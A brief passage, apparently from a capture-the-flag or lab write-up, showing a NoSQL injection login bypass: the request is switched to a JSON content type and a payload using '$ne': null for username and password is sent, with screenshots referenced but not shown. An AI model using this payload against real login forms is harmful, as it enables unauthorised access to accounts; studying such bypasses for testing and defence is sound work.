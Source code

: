 ![](attachment/4a7ad92c7fb403d8699c607a6792ff50.png)

Since it `especially` allows `json` data, try a simple login bypass payload

Change content type to `json` first

Payload : 

```http
Content-Type: application/json
```

```sql
{"username": {"$ne": null}, "password": {"$ne": null} }
```

![](attachment/f3f83d51de263b2e0130fd38e9a72a8c.png)
